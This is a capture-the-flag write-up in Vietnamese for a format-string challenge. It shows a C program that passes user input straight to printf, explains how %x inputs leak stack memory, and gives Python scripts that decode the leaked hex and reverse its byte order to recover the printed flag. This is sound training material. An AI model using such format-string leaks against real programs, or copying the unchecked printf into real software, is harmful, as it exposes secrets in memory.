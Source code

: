 ```yaml
---
description: 'Note : A JOURNEY TO GAIN KNOWLEDGE'
cover: ../../../.gitbook/assets/image.png
coverY: 0
---
```


# 🎰 ELF x86 - Format string bug basic 1

chall:

```
#include <stdio.h>
#include <unistd.h>
 
int main(int argc, char *argv[]){
        FILE *secret = fopen("/challenge/app-systeme/ch5/.passwd", "rt");
        char buffer[32];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

Work flow:

* Đầu tiên ta xác định được buffer size 32
* Flag được đọc từ file .passwd được chuyển thành string và ghi vào stack
* Hàm trigger đáng ngờ ở đây chính là printf với argv\[1]
* Thật vậy, khi đọc tài liệu về hàm printf ta thấy điều thú vị sau:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

* Như vậy tham số đầu tiên luôn là kiểu dữ liệu như %d, %s tương ứng với giá trị theo sau đó
* Nhưng ở đây lại truyền vào hàm printf với các giá trị không kiểm duyệt, dẫn đến hiện trạng nếu ta nhập các kiểu dữ liệu hex %x sẽ khiến hàm trả về các giá trị trong stack (bao gồm địa chỉ các function và flag)

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

*   Để dễ quan sát hơn ta dùng %0x.

    * 0 là padding khi không đủ số lượng
    * 8 là số lượng giá trị hiển thị
    * x là hiển thị giá trị hex
    * Kí tự . để phân cách mỗi 8 kí tự cho dễ quan sát



    <figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
* Như vậy ý tưởng ở đây, ta chỉ việc leak hết các dữ liệu có thể đọc trong stack và tìm cụm có nghĩa

```
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))

for x in list_hex:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")
```

<figure><img src="../../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

* Tuy nhiên do đang ở dạng little-endian, ta có thể viết đoạn script cơ bản sau để chuyển lại big-endian

```
from pwn import *
hex_val = "00000020.0804b160.0804853d.00000009.bffffcc9.b7e1b679.bffffb94.b7fc3000.b7fc3000.0804b160.39617044.28293664.6d617045.bf000a64.0804861b.00000002.bffffb94.bffffba0.f3004700.bffffb00.00000000.00000000.b7e03fa1.b7fc3000.b7fc3000.00000000.b7e03fa1.00000002.bffffb94.bffffba0.bffffb24.00000001"

list_hex = list(hex_val.split("."))
s = []

for y in list_hex:
    little_endian = y[6:] + y[4:-2] + y[2:-4] + y[0:-6]
    s.append(little_endian)
#print(s)
for x in s:
        print(bytes.fromhex(x).decode(errors="ignore"),end="")

```

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

> flag: **Dpa9d6)(Epamd**



